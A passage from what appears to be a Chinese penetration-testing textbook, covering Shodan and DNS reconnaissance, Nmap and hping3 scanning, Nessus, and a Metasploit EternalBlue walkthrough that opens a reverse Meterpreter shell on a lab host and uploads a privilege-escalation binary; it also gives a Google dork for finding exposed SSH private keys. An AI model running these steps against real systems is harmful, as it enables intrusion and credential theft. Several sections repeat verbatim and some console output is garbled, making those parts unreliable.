| mm.bing.com |  |
| origin.bing.com |  |
| platform.bing.com |  |
| r.bing.com |  |
| ssl.bing.com |  |
| to.bing.com |  |
| t1.bing.com |  |
| t2.bing.com |  |
| t3.bing.com |  |
| tiles.bing.com |  |

图 7.5: Onyphe 输出

## 使用 Shodan 进行足迹探测

Shodan (https://www.shodan.io/) 是一个互联网搜索引擎，用于发现在线的特定设备和小设备类型。最流行的搜索包括摄像头、Linksys 设备、Cisco 设备、NETGEAR、SCADA 等。它通过扫描互联网并解析许多设备返回的横幅（banners）来工作。利用这些信息，Shodan 可以告诉你哪些互联网服务器（及其版本）最流行，或者特定地区存在多少服务器。你可以先导航到主页并在搜索字段中输入你的查询内容，就像在任何其他搜索引擎中操作一样：


从这里，你可以进入结果中的几个关键区域。从左侧边栏开始，我们看到大量的数据摘要：结果（Results）：
- 顶级暴露的服务（端口）
- 顶级组织（ISPs）
- 顶级操作系统（OS）
- 顶级产品（软件名称）

然后，在主区域中，我们获得完整的结果列表，包括以下内容：
- IP 地址
- 主机名（Hostname）
- ISP
- 条目添加到数据库的时间
- 地理位置
- 暴露的服务横幅（banner）

然后，为了获取更多信息，你可以点击详情（Details），这将直接带你进入该主机。在这里，你可以在左侧看到关于主机的数据，在右上角看到发现的端口列表，并在向下滚动时查看每个端口的详细信息和横幅。

当你进行外部渗透测试时，Shodan 是一个非常强大的工具。它可以用于发现在你正在渗透测试的组织所拥有的 IP 上暴露的服务。

## 通过 DNS 进行足迹探测

通常情况下，DNS 服务器相关网络中存储了非常多的信息，并且有很多现成的工具可以从目标机器上收集所有这些有用信息。DNS 足迹探测允许我们收集有关区域数据的信息。此 DNS 区域通常包括域名、主机名、IP 地址以及关于特定网络的更多有用信息。

### DNS 是干什么的？

DNS 属于 TCP/IP 协议族。它负责将易于使用的域名（例如，http://www.google.com）映射到其 IP 地址（例如，142.250.182.228）。名称服务器是带有这些映射关系的服务器。对于渗透测试来说，访问 DNS 服务器可以通过审查 IP 地址和主机名来获取组织结构的概览。

### 在 Kali 上使用 host 命令

`host` 命令包含在许多 Linux 发行版中，包括 Kali Linux。使用它时，输入你想要查询的域名，例如：

```
host bing.com
bing.com has address address 13.107.211.196.
bing.com has name server ns1-24.edge.0.microsoft.com
ns1-24.edge.0.microsoft.com has address 204.107.22.196
bing.com has name server ns2-24.edge.0.microsoft.com
ns2-24.edge.0.microsoft.com has address 204.107.22.197
bing.com has name server ns3-24.edge.0.microsoft.com
ns3-24.edge.0.microsoft.com has address 204.107.22.198
bing.com has name server ns4-24.edge.0.microsoft.com
ns4-24.edge.0.microsoft.com has address 204.107.22.199
```

图 7.7: Kali 中的 host 命令

*图 7.7: Kali 中的 host 命令*

图 7.7 显示 `host` 命令告诉我们域名指向 13.107.211.196。

`host` 命令包含在许多 Linux 发行版中，包括 Kali Linux。使用它时，输入你想要查询的域名，例如：

```
host bing.com
bing.com has address 13.107.211.196.
bing.com has name server ns1-24.edge.0.microsoft.com
ns1-24.edge.0.microsoft.com has address 204.107.22.196
bing.com has name server ns2-24.edge.0.microsoft.com
ns2-24.edge.0.microsoft.com has address 204.107.22.197
bing.com has name server ns3-24.edge.0.microsoft.com
ns3-24.edge.0.microsoft.com has address 204.107.22.198
bing.com has name server ns4-24.edge.0.microsoft.com
ns4-24.edge.0.microsoft.com has address 204.107.22.199
```

图 7.7: Kali 中的 host 命令

图 7.7 显示 `host` 命令告诉我们域名指向 13.107.211.196。

## 使用 NSLOOKUP 进行足迹探测

NSLOOKUP 是一个检查 DNS 是否配置正确的工具。要使用它，运行 `nslookup` 命令。NSLOOKUP 在 Linux 和 Windows 上均可用。它将显示如图 7.8 所示的信息：

```
nslookup
com
Server:  127.0.0.53
Address:  127.0.0.53

Non-authoritative answer:
Name: bing.com
Address: 13.107.211.196
```

图 7.8: nslookup

默认情况下，`nslookup` 命令查询 DNS 服务器 A 记录。它会显示域名的 IP 地址。NSLOOKUP 用于发现域名的 IP 地址。它显示域名指向服务器的 IP。如图 7.8。现在我们可以查看 DNS 类型：

```
nslookup bing.com
Server:  127.0.0.53
Address:  127.0.0.53

Non-authoritative answer:
Name: bing.com
Address: 13.107.211.196
```

图 7.9: NSLOOKUP 输出

- 服务器名称：bing.com
- 在名称之后，你可以看到服务器的地址，为 13.107.211.196。
- 如果你设置 `type=A` 并按回车，你将获得如下所示的结果：

```
> set type=A
> bing.com
Server:  127.0.0.53
Address:  127.0.0.53

Non-authoritative answer:
Name: bing.com
Address: 13.107.211.196
```

图 7.10: 显示 A 记录的 NSLOOKUP 输出

- 设置 `type = MX` 并按回车
- 然后，输入 bing.com


```
> set type=MX
> bing.com
Server:  127.0.0.53
Address:  127.0.0.53

Non-authoritative answer:
Name: bing.com
mail exchanger = 10 bing-com.mail.protection.outlook.com
```

### 图 7.11: NSLOOKUP MX 记录

在先前的截图中，你看到了邮件服务器。此 MX 记录意味着网站 `bing.com` 拥有邮件交换记录。MX 记录或邮件交换记录告知特定域名的邮件递送目的地。
你可以通过相同的方式请求 DNS 记录类型或确定特定类型。

## 通过搜索引擎进行足迹追踪

最标准且广受欢迎的替代方案之一是通过搜索引擎进行足迹追踪。你可以打开网络浏览器，通过 Google 或 Bing 等任何搜索引擎查找任何组织；结果通常会汇集互联网上提供的所有信息。除了这些公开信息外，网站和在线搜索引擎缓存还提供了当前不可用、但在主网站上已更新或修改的信息。
你可以从网站和地图服务中收集目标的区域信息，例如总部物理位置及周边地区、分机构的位置以及其他相关信息。
其中一些最受欢迎的互联网服务如下：
- Google earth
- Google map
- Bing map
- Wikimapia
- Yahoo map
- 其他各种地图和位置服务

## Google 黑客数据库 (GHDB)

Google 黑客攻击（也称为 Google Dorking）是一种足迹追踪技术，利用 Google 搜索和其他由 Google 驱动的应用程序定位公司系统中的安全漏洞。例如，如果你在 Google 搜索中输入以下字符串并按回车，你应该能够看到被索引的 SSH 私钥：
```
intitle:index.of id_rsa -id_rsa.pub
```
Google 黑客攻击由 Johnny Long 普及。他将查询分类在一个名为 Google Hacking Database (GHDB) 的数据源中。这个分类查询数据库旨在揭示信息。这些信息可能是敏感且不公开的。Google 黑客攻击用于通过 `www.exploit-db.com` 加速搜索；你可以浏览 GHDB。输入以下 URL：
`https://www.exploit-db.com/google-hatking-database/`

## 网络扫描

在足迹追踪阶段，你可能已经有了关于目标的足够信息。现在，网络扫描阶段需要这些信息来继续进行。`网络扫描`是一种通过扫描网络和端口来获取网络信息的方法，例如识别主机、端口信息和服务。网络扫描的主要目标是识别以下内容：
- 网络上的在线主机
- 开放和关闭的端口
- 防墙等安全设备的存在
- OS 信息
- 网络上运行的服务
- 系统设计
- 识别运行的服务以发现漏洞

## 网络扫描介绍

`网络扫描`阶段包括探测目标网络以获取信息。当用户探测系统时，它可以通过收到的回复暴露许多有用的信息。在开发网络设计时对网络、端口和运行的服务进行广泛识别，攻击者可以获得更清晰的目标画像。

## 网络通信

为了理解扫描如何工作，我们应该理解网络通信是如何发生的。`IP 协议 (IP)` 是 TCP/IP 栈中的网络层协议，而`传输控制协议 (TCP) 和用户数据报协议 (UDP)` 是 TCP/IP 栈中传输层的通信协议。TCP 是面向连接的。在建立有效的 TCP 链路后会进行双向通信。UDP 是一种简单、无连接的互联网协议。若干消息通过 UDP 分段作为包发送。与 TCP 不同，UDP 不向 IP 数据包添加可靠性、流量控制或错误恢复功能。由于 UDP 的简单性，UDP 头部包含的字节较少，网络开销远小于 TCP。以下布局显示了 TCP 头部：

图 7.12：TCP 数据包结构
TCP 头部中的标志字段为 9 位，包括以下六个标志：
- SYN: 启动两个主机之间的链路以促进交互
- ACK: 确认接收包
- URG: 表示包中的数据是紧急的，需要快速处理
- PSH: 指令发送系统快速发送所有缓冲区内容
- FIN: 通知远程系统通信结束，优雅地关闭连接
- RST: 重置连接
在主机之间建立 TCP 连接时会进行三次握手。这种握手保证了这些主机之间建立一个成功、可靠且面向连接的会话。TCP 连接的建立过程包括三个动作，如下图所示：

图 7.13：TCP 三次握手
考虑一个客户端打算与服务器交互。当客户端向服务器发送 SYN 包时，TCP 连接随之建立。服务器在收到客户端的 SYN 包后，用 SYN+ACK 包回复客户端。客户端在收到服务器的 SYN+ACK 包后回复 ACK 包，在有效握手后，导致了 TCP 连接的建立。

## 使用 Nmap 进行扫描

大多数网络扫描器通过利用前节讨论的三次握手来发现任何系统上暴露的服务。Network Mapper (`Nmap`) 是一种用于网络探索和安全审计的免费开源工具。它对于网络清单、管理解决方案升级计划以及监控主机或服务的运行时间等任务非常有用。`Nmap` 以独特的方式使用原始 IP 包来确定网络上有哪些主机。
网络扫描阶段需要这些信息来继续进行。`网络扫描`是一种通过扫描网络和端口来获取网络信息的方法，例如识别主机、端口信息和服务。网络扫描的主要目标是识别以下内容：
- 网络上的在线主机
- 开放和关闭的端口
- 防墙等安全设备的存在
- OS 信息
- 网络上运行的服务
- 系统设计
- 识别运行的服务以发现漏洞
`网络扫描`阶段包括探测目标网络以获取信息。当用户探测系统时，它可以通过收到的回复暴露许多有用的信息。在开发网络设计时对网络、端口和运行的服务进行广泛识别，攻击者可以获得更清晰的目标画像。
为了理解扫描如何工作，我们应该理解网络通信是如何发生的。`IP 协议 (IP)` 是 TCP/IP 栈中的网络层协议，而`传输控制协议 (TCP) 和用户数据报协议 (UDP)` 是 TCP/IP 栈中传输层的通信协议。TCP 是面向连接的。在建立有效的 TCP 链路后会进行双向通信。UDP 是一种简单、无连接的互联网协议。若干消息通过 UDP 分段作为包发送。与 TCP 不同，UDP 不向 IP 数据包添加可靠性、流量控制或错误恢复功能。由于 UDP 的简单性，UDP 头部包含的字节较少，网络开销远小于 TCP。以下布局显示了 TCP 头部：

图 712：TCP 数据包结构
TCP 头部中的标志字段为 9 位，包括以下六个标志：
- SYN: 启动两个主机之间的链路以促进交互
- ACK: 确认接收包
- URG: 表示包中的数据是紧急的，需要快速处理
- PSH: 指令发送系统快速发送所有缓冲区内容
- FIN: 通知远程系统通信结束，优雅地关闭连接
- RST: 重置连接
在主机之间建立 TCP 连接时会进行三次握手。这种握手保证了这些主机之间建立一个成功、可靠且面向连接的会话。TCP 连接的建立过程包括三个动作，如下所示：

图 713：TCP三次握手
考虑一个客户端打算与服务器交互。当客户端向服务器发送 SYN 包时，TCP 连接随之建立。服务器在收到客户端的 SYN 包后，用 SYN+ACK 包回复客户端。客户端在收到服务器的 SYN+ACK 包后回复 ACK 包，在有效握手后，导致了 TCP 连接的建立。
大多数网络扫描器通过利用前节讨论的三次握手来发现任何系统上暴露的服务。Network Mapper (`Nmap`) 是一种用于网络探索和安全审计的免费开源工具。它对于网络清单、管理解决方案升级计划以及监控主机或服务的运行时间等任务非常有用。`Nmap` 以独特的方式使用原始 IP 包来确定网络上有哪些主机。
网络扫描阶段需要这些信息来继续进行。`网络扫描`是一种通过扫描网络和端口来获取网络信息的方法，例如识别主机、端口信息和服务。网络扫描的主要目标是识别以下内容：
- 网络上的在线主机
- 开放和关闭的端口
- 防墙等安全设备的存在
- OS 信息
- 网络上运行的服务
- 系统设计
- 识别运行的服务以发现漏洞
`网络扫描`阶段包括探测目标网络以获取信息。当用户探测系统时，它可以通过收到的回复暴露许多有用的信息。在开发网络设计时对网络、端口和运行的服务进行广泛识别，攻击者可以获得更清晰的目标画像。


为了理解扫描如何工作，我们应该理解网络通信是如何发生的。`IP`协议 (`IP`) 是 TCP/IP 栈中的网络层协议，而传输控制协议 (`TCP`) 和用户数据报协议 (`UDP`) 是 TCP/IP 栈中传输层的通信协议。`TCP` 是面向连接的。在建立有效的 `TCP` 链路后会进行双向通信。`UDP` 是一种简单、无连接的互联网协议。若干消息通过 `UDP` 分段作为包发送。与 `TCP` 不同，`UDP` 不向 `IP` 数据包添加可靠性、流量控制或错误恢复功能。由于 `UDP` 的简单性，`UDP` 头部包含的字节较少，网络开销远小于 `TCP`。以下布局显示了 `TCP` 头部：


图 7.12：TCP 数据包结构

`TCP` 头部中的标志字段为 9 位，包括以下六个标志：

- `SYN`: 启动两个主机之间的链路以促进交互
- `ACK`: 确认接收包
- `URG`: 表示包中的数据是紧急的，需要快速处理
- `PSH`: 指令发送系统快速发送所有缓冲区内容
- `FIN`: 通知远程系统通信结束，优雅地关闭连接
- `RST`: 重置连接

在主机之间建立 `TCP` 连接时会进行三次握手。这种握手保证了这些主机之间建立一个成功、可靠且面向连接的会话。`TCP` 连接的建立过程包括三个动作，如下所示：


图 7.13：TCP三次握手

考虑一个客户端打算与服务器交互。当客户端向服务器发送 `SYN` 包时，`TCP` 连接随之建立。服务器在收到客户端的 `SYN` 包后，用 `SYN+ACK` 包回复客户端。客户端在收到服务器的 `SYN+ACK` 包后回复 `ACK` 包，在有效握手后，导致了 `TCP` 连接的建立。

大多数网络扫描器通过利用前节讨论的三次握手来发现任何系统上暴露的服务。Network Mapper (`Nmap`) 是一种用于网络探索和安全审计的免费开源工具。它对于网络清单、管理解决方案升级计划以及监控主机或服务的运行时间等任务非常有用。`Nmap` 以独特的方式使用原始 `IP` 包来确定网络上有哪些主机。

网络扫描阶段需要这些信息来继续进行。网络扫描是一种通过扫描网络和端口来获取网络信息的方法，例如识别主机、端口信息和服务。网络扫描的主要目标是识别以下内容：

- 网络上的在线主机
- 开放和关闭的端口
- 防墙等安全设备的存在
- OS 信息
- 网络上运行的服务
- 系统设计
- 识别运行的服务以发现漏洞

网络扫描阶段包括探测目标网络以获取信息。当用户探测系统时，它可以通过收到的回复暴露许多有用的信息。在开发网络设计时对网络、端口和运行的服务进行广泛识别，攻击者可以获得更清晰的目标画像。

### 扫描 UDP 端口 (-su)

虽然互联网上大多数流行的服务都运行在 `TCP` 协议上，但 `UDP` 服务也被广泛部署。`DNS`、`SNMP` 和 `DHCP`（注册端口 53、161/162 以及 67/68）是基于 `UDP` 构建的三个最常见的协议。`UDP` 扫描通常比 `TCP` 扫描更慢且更困难，因此某些安全审计人员会忽略这些端口。然而，这可能是一个错误，因为可利用的 `UDP` 服务非常常见，而且攻击者绝不会忽略整个协议。幸运的是，`Nmap` 可以帮助发现任何目标系统上暴露的 `UDP` 端口：

```bash
root@kali:~# nmap -su 10.0.2.15
```

### 使用 HPING3 进行扫描

`Nmap` 的一个极佳替代方案是 `HPING3`，它是一个面向命令行的 `TCP/IP` 数据包构造工具，可用于创建带有 `TCP`、`UDP` 或 `ICMP` 载荷的 `IP` 数据包。所有的头部字段都可以通过命令行进行自定义和控制。利用和理解该工具需要对 `IP` 以及 `TCP/UDP` 有良好的理解：


图 7.15：Kali Linux 中的 `HPING3` 工具选项

### 作为端口扫描器的 HPING

构造 `TCP` 数据包是 `HPING` 的默认行为。

通过指定 `TCP` 标志、目标端口和目标 `IP` 地址，可以轻松构造 `TCP` 数据包：

- `-F` `--fin` `FIN` 标志
- `-S` `--syn` `SYN` 标志
- `-R` `--rst` `RST` 标志
- `-P` `--push` `PUSH` 标志
- `-A` `--ack` `ACK` 标志
- `-U` `--urg` `URG` 未使用的标志
- `-X` `--xmas` `Xmas` 未使用的标志 (`0x40`)
- `-Y` `--ymas` `Ymas` 未使用的标志 (`0x80`)

上述扫描类型在攻击者可能遇到的几种场景非常有用。`FIN`扫描 (`-F fin`) 是攻击者发送一个仅设置了 `FIN` 标志的数据包。如果攻击者向目标发送了 `FIN` 数据包，意味着攻击者正在请求终止连接，但之前没有建立的连接需要关闭。这无疑会让目标感到困惑。如果目标没有反应，则表明该端口是开放的。如果目标响应 `RST` 数据包，则目标上的端口是关闭的。

`Xmas` 扫描的名称来源于数据包内设置的标志集合。这种扫描类型通过发送在数据包头部中嵌入所有可能的标志的 `TCP` 段来完成，创建出根据 `RFC793` 被禁止的数据包。这些扫描旨在操纵 `TCP` 部的 `PSH`、`URG` 和 `FIN` 标志，对于绕过防火墙非常有用。

### 使用 TCP 标志生成自定义数据包

`Colasoft Packet Builder` 软件允许创建自定义的网络数据包，这些数据包可以通过网络进行攻击。同样，修改也可以用于创建分片数据包。你可以从 `http://www.colasoft.com/` 下载该软件：

#### Colasoft Packet Builder

| 序号 | 增量时间 | 源 | 目的 | 协议 |
|---|---|---|---|---|
| 1 | 0.100000:00:00:00:00 | | FF:FF:FF:FF:FF | ARP |
| 2 | 0.100000:0.0:0.0 | | 0.0:0:0. | TCP |
| 3 | 0.100000:0.0:0.0 | | 0.0:0:0. | IP |


图 7.16：Colasoft packet builder 图形界面

`Colasoft Packet Builder` 使用导入和导出选项处理一组数据包。你也可以通过点击 `Add` 按钮包含一个新的数据包。从下拉列表中选择包类型。提供的选项如下：

- `ARP` 数据包
- `IP` 数据包
- `TCP` 数据包
- `UDP` 数据包

## 枚举 (Enumeration)

枚举被定义为从系统中提取用户名、机器资源、共享和服务的过程。在这个阶段，攻击者产生活动连接并执行引导性查询以获取更多关于目标的信息。收集到的信息用于确定系统安全中的漏洞或弱点，并在利用阶段尝试利用它们。

- 主动评估：主动评估是漏洞评估的一种程序，包括向目标网络主动发送请求并检查响应。简单来说，它是一种要求主动探测目标主机的评估过程。大多数流行的漏洞评估工具都是主动评估工具，它们通过向目标发送探测探来发现漏洞。`Nessus` 就是其中一个例子。
- 被动评估：另一方面，被动漏洞扫描器可以提供网络的非侵入式视视图，而无需向目标发送任何直接探测。首选的被动漏洞评估工具是 `Nessus` (`https://www.tenable.com/sites/drupal.dmz.tenable.com/files/uploads/documents/whitepapers/PVS_Overview_0.pdf`)。被动漏洞扫描器在数据包层监控网络流量以确定拓扑、服务和漏洞，并执行不同类型的关联以识别任何类型网络中的安全漏洞。
- 外部评估：漏洞评估也可以分类为外部评估。这是从黑客角度进行评估的程序，旨在寻找可以利用的漏洞。
- 内部评估：这是定位漏洞的另一种方法。内部评估包括通过扫描内部网络和基础设施发现漏洞。

> 外部和内部并不是漏洞评估的独立类别。大多数情况下，它们是从不同环境进行的相似测试。

在进入漏洞评估之前，我们必须熟悉与漏洞评估相关的几个基本术语。这些将帮助我们识别漏洞评估报告的严重性。

## 通用漏洞评分系统 (CVSS)

通用漏洞评分系统 (`CVSS`) 能够捕任何漏洞的主要特征，并提供一个显示其强度/重要性的数值评分。随后，该数值评分可以转换为定性描述（如低、中、高和危急），以帮助组织正确地评估并优先考虑其漏洞管理计划。

## 常见漏洞与披露 (CVE)

常见漏洞与披露 (`CVE`) 是另一个可以让你找到漏洞信息的系统。`CVE` 维护着一个已识别漏洞的列表，由一个识别编号和已识别安全漏洞的摘要组成。例如，在发现著名的 `log4j` 漏洞后，该漏洞被分配了 `CVE CVE-2021-44228`。

## 漏洞扫描


手动发现目标系统中的漏洞效率并不高。在当今现代技术进步的时代，使用各种工具发现现有系统中的漏洞是非常简单的。有许多自动化和手动工具可帮助你定位漏洞。漏洞扫描器是自动化工具，专门用于识别操作系统、网络和软件应用程序中的安全问题和漏洞。这些扫描工具会对目标系统的脚本、开放端口、横幅文件、运行的服务、配置错误以及各种其他属性进行深度检查。

这些漏洞扫描工具包括：

- Nessus
- OpenVAS
- Rapid7 - Nexpose
- Retina
- Qualys 以及其他工具

这些工具不仅被安全专家使用，还被攻击者用来识别公司运行环境中的漏洞。现在，我们将 Nessus 工具并了解如何使用 Nessus 运行漏洞扫描。

## Nessus 漏洞扫描器

Nessus 是一种远程安全扫描工具，它可以检查计算机系统，如果发现任何恶意黑客可以用来访问任何计算机的漏洞，它就会发出报警。它通过运行 135000+ 测试来实现，查看这些攻击是否可以被用于访问系统或对其造成伤害。安装 Nessus 并不在本章的范围内，但你可以从 YouTube 上广泛的教程和安全相关的博客中轻松学习。现在，让我们了解如何使用 nessus 启动网络扫描。

1. 当 Nessus 安装在你的系统中且服务运行时，应通过 浏览器访问 Nessus GUI，其界面如下：


> 图 7.18: Nessus 扫描主页

2. 要运行新的网络扫描，点击 Scans 链接：


3. 然后，你应该会在 Web GUI 的右上角看到 New Scan 按钮：


4. 之后，Nessus 将向你展示可用的扫描选项。

我们现在将选择基础网络扫描（Basic Network Scan）：


图 7.21: Nessus 扫描选项

5. 一旦你选择了 Basic Network Scan，你将进入一个页面，在其中你必须提供要在目标网络执行的所有扫描细节。在 Targets 字段中，你需要提供要扫描的 IP 或 IP 列表：


6. Nessus 还允许你在特定的间隔内执行定期扫描。你可以从 schedule 选项中探索该功能：


7. 接下来，你可以通过点击 DISCOVERY 选项来自定义 Nessus 执行扫描的方式。你会看到几个自定义选项：


8. 然后，你需要点击 ASSESSMENT 选项，这将允许你选择要在目标上执行的扫描类型。


9. Nessus 还支持身份验证扫描，你可以在 Credentials 选项卡中为身份验证扫描设置凭据：


10. 然后，你需要选择插件。插件是能够向目标发送探测并确定目标是否存在漏洞的规则。你需要根据需求在扫描前选择插件：


11. 一旦你保存了扫描设置，Nessus 将开始向你定义的目标发送探测，一旦扫描完成，它将向你展示报告。扫描完成后，报告仪表板应该像这样，你可以在其中看到汇总为危急（Critical）、高（High）、中（Medium）和低（Low）的发现结果：


## 漏洞利用

在利用阶段，渗透测试人员会尝试主动利用安全缺陷。利用意味着入侵系统并获得访问其资源。要充分理解这一阶段，你需要对网络拓扑有良好的了解，如图 7.30 所示：


图 7.30：示例网络拓扑

如你所示，我们有两个目标网络：`Network A` 和 `Network B`。渗透测试员只能访问 `Network A`。将在 `Network A` 中的一个系统上执行利用。主要目标将是 `192.168.1.2`。在之前的阶段中，我们已经发现系统 `192.168.1.2` 存在 `Eternalblue` 漏洞，如图 7.29 所示。在这一阶段，我们将尝试利用该漏洞并获取目标系统的权限。

## Metasploit 框架简介

我们现在准备好使用 `Metasploit` 框架进行漏洞利用。Metasploit 框架是一个基于 Ruby 的模块化渗透测试平台，允许你编写、测试和执行代码。要做到这一点，请启动 Kali Linux。Kali Linux 启动后，打开终端并运行 `msfupdate` 来更新 Metasploit。这将 Metasploit 的所有组件更新到最新版本。我们将使用 Metasploit 控制台运行利用程序：

```bash
msfconsole
```

```
(kali@kali)~$ msfconsole
  metasploit v6.0.4-dev
  exploits - 213
  auxiliary - 364
  payloads - 452
  encoders - 10
```

图 7.31：启动 Metasploit 控制台

一旦 Metasploit 启动，下一步是为我们的目标找到正确的利用程序。我们可以检查是否存在针对 EternalBlue 或 MS17-010 的现有利用模块。我们可以使用以下命令在所有可用模块中搜索我们的利用程序：

`search eternalblue`

搜索结果所示。如我们在图 7.32 所示，我们有两个结果：

| Name | Disclosure | Rank | Description |
|---|---|---|---|
| auxiliary/scanner/smb/ms17_010_exploit | | normal | MS17-010 RCE 检测 |
| exploit/windows/smb/ms17_010_eternalblue | 2017-03-14 | good | MS17-010 (EternalBlue) 远程内核池损坏 |

图 7.32：搜索正确的利用程序

在这种情况下，第二个结果是我们需要的。让我们找到有关该利用程序的更多信息。运行以下命令查看详细描述：

`info exploit/windows/smb/ms17_010_eternalblue`

我们可以使用该命令选择此模块。选择利用程序后，我们可以使用 "show options" 命令查看运行利用程序所需的强制性信息：

```
msf exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > show options
```

模块选项 (exploit/windows/smb/ms17_010_eternalblue):

| Name | Current Setting | Required | Description |
|---|---|---|---|
| Groomallocations | 12 | yes | 扩展内核池的初始项目数量。 |
| GroomDelta | 5 | yes | 每次尝试增加的量。 |
| MaxExploitAttempts | 3 | yes | 重试利用的次数。 |
| ProcessName | spoolsv.exe | yes | 要注入 payload 的进程。 |
| RHOST | | yes | 目标地址 |
| RPORT | | yes | 目标端口 (TCP) |
| VerifyArch | | yes | 检查架构是否匹配目标。 |
| VerifyTarget | | yes | 检查操作系统是否匹配目标。 |

```
Exploit target:
| Id | Name |
|---|---|
| 0 | Windows 7 and Server 2008 R2 (x64) All Service Packs |
```

图 7.33：在 Metasploit 中配置利用程序


从输出中，我们知道目标地址 (`RHOST`) 尚未设置。我们在目标网络拓扑中已经看到目标 VM 是 `192.168.1.2`；我们需要在 Metasploit 中设置利用程序将交付的目标。另一个重要的利用选项是 `RPORT`。对于 `EternalBlue` 利用程序，`RPORT` 默认设置为 `445`，因为这是一个 SMB 服务利用程序：

```
msf exploit(ms17_010_eternalblue) > set RHOST 192.168.1.2
RHOST => 192.168.1.2
```

### 图 7.34：在 Metasploit 中配置利用程序 - 设置目标主机

为了执行利用，Metasploit 还需要一个 payload。payload 基本上是一个利用成功后运行的 Metasploit 模块。它允许攻击者在目标系统上执行有利于其自身的操作。它可以植入后门端口、向系统添加新用户、擦除硬盘或启动返回到攻击者的隐蔽连接，攻击者将能够与目标系统进行交互。可以使用以下命令找到 Metasploit payload 的完整列表：

`show payloads`

如果没有选择 payload，将使用使用默认 payload。在这里，我们将使用以下命令手动设置 payload `windows/x64/meterpreter/reverse_tcp`：

`set payload windows/x64/meterpreter/reverse_tcp`

```
msf exploit(ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

### 图 7.35：在 Metasploit 中配置利用程序

一个常见的问题是目标位于防火墙之后。防火墙通常不允许除 `80`、`443` 以外的端口。因此，reverse TCP 在这里很有帮助。`Meterpreter` 是一个强大的工具，一旦在目标上执行，就会提供一个交互式 shell。这个 meterpreter 允许攻击者探索目标系统。在设置 payload 后，再次运行 `show options` 命令：

```
msf exploit(ms17_010_eternalblue) > show options
```

Payload 选项 (exploit/windows/smb/eternalblue):

| Name | Current Setting | Required | Description |
|---|---|---|---|
| Groomallocations | 12 | yes | 扩展内核池的初始项目数量。 |
| GroomDelta | 5 | yes | 每次尝试增加的量。 |
| MaxExploitAttempts | 3 | yes | 重试利用的次数。 |
| ProcessName | spoolsv.exe | yes | 要注入 payload 的进程。 |
| RHOST | 192.168.1.2 | yes | 目标地址 |
| RPORT | 444 | yes | 目标端口 (TCP) |
| VerifyArch | true | yes | 检查架构是否匹配目标。 |
| VerifyTarget | true | yes | 检查操作系统是否匹配目标。 |

Payload 选项 (exploit/windows/x64/meterpreter/reverse_tcp):

| Name | Current Setting | Required | Description |
|---|---|---|---|
| EXITFUNC | thread | yes | 退出技术 (接受): seh, thread, process, none) |
| LHOST | | yes | 监听地址 |
| LPORT | 4444 | yes | 监听端口 |

`msf exploit(es17_010_eternalblue) > LHOST 192.168.1.3`

`HOST > 192.168.1.3`

好了，我们已准备就绪。开始利用！

`msf exploit(es17_010_eternalblue) > exploit`

```
* Started reverse TCP handler on 192.168.1.3:4444
* 192.168.1.2:445 - Connecting to target for Exploitation.
* 192.168.1.2:445 - Connection established for exploitation.
* 192.168.1.2:445 - Target OS selected for OS indicated by SMB
* 192.168.1.2:445 - RAW buffer dump size (72 bytes)
* 192.168.1.2:445 - Explaying payload: 64 65 66 74 27 23 20 37 20 72 66 66 63 75 Windows 7 Pro
* 192.168.1.2:445 - Explaying payload: 0xC0000000 73 69 65 63 25 30 2e 31 00
* 192.168.1.2:445 - Target exploit executed by DCE/RPC request
* 192.168.1.2:445 - Trying exploit with 12 Groom Allocations.
* 192.168.1.2:445 - Sending all last fragment of exploit packet
* 192.168.1.2:445 - Sending exploit pool grooming
* 192.168.1.2:445 - Closing SMB2 buffer
* 192.168.1.2:445 - Closing SMB1 connection creating free hole adjacent to SMB2 buffer.
* 192.168.1.2:445 - Sending all last fragment of exploit packet
* 192.168.1.2:445 - Receiving response from exploit packet
* 192.168.1.2:445 - Exploit executed successfully (0xC0000000)
* 192.168.1.2:445 - Sending stage to connection.
* 192.168.1.2:445 - Sending tree to corrupted buffer.
* Sending stage (1189423 bytes)
* Meterpreter session 1 opened (192.168.1.3:4444) -> (192.168.1.2:49158) at 2021-06-05 03:55:11 -0400
* 192.168.1.2:445 - ======================================================
* 192.168.1.2:445 - ======================================================
meterpreter >
```

### 图 7.37: 在 Metasploit 中运行漏洞利用

完成后，我们需要通过执行以下命令来运行漏洞利用：

### exploit

漏洞利用现在已成功执行，如图 7.37 所示。meterpreter 已经在目标机器和 Kali 机器之间建立了连接。现在，我们可以使用 meterpreter 执行许多实用的操作：

```
meterpreter > pwd
C:\Windows\system32
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 图 7.38: Meterpreter 会话

从 `getuid` 的结果（图 7.38）可以看出，meterpreter 正以 `SYSTEM` 身份运行，这完美地展示了黑客利用 EternalBlue 漏洞会有多危险。

### 权限提升

默认情况下，EternalBlue 漏洞会赋予我们 root 权限，但对于所有漏洞并非如此。在漏洞利用没有提供 root 权限的情况下，你可能需要在目标系统中提升权限。meterpreter 有一个 `set` 命令，类似于 Linux shell 的许多功能。如果你不是以 root/管理员身份位于目标服务器上，可以使用 `getuid` 来查看自己的身份，并使用 `sysinfo` 来查看服务器的规格。尽管 meterpreter 有内置命令，获取 root 权限通常并不通用。

### 了解你正在操作的系统


大多数权限提升方法都是基于操作系统的漏洞。因此，我们必须发现目标系统的内核或版本，例如 `Windows Server 2013 R2`、`Ubuntu 16.04` 或 `Linux` 内核 `4.4`。

### 发现正确的漏洞

一旦有了目标系统的信息，就可以寻找该系统的权限提升技术。`Exploit-db` 是一个很好的资源。在发现漏洞（通常是 `C` 或 `C++` 源码）后，必须对其进行编译。最大的问题是你正在运行 `Kali`，可能需要将其编译为 `Windows` 可执行文件。一个有效的方法是在虚拟机中运行你喜欢的编译器（例如 `Visual Studio`）编译源码，然后传输到 `Kali` 中。对于某些漏洞，你可以利用预编译的可执行文件。然而，你需要确保是从可靠来源获取的。

### 将漏洞上传到目标机器

一旦准备好了权限提升，就需要将其上传到目标机器。首选方法是 `meterpreter`；它允许方便地向机器上传文件或从设备下载文件。我们可以使用以下命令上传漏洞（如图 7.39 所示）：

```
upload "exploit in our device" "target area at"
```

```
meterpreter > upload priv_escalation_exploit.exe c:\windows\system32
* uploading : priv_escalation_exploit.exe -> c:\windows\system32
* uploaded : priv_escalation_exploit.exe -> c:\windows\system32\priv_escalation.exe
meterpreter >
```

图 7.39: 使用 `meterpreter` 上传文件

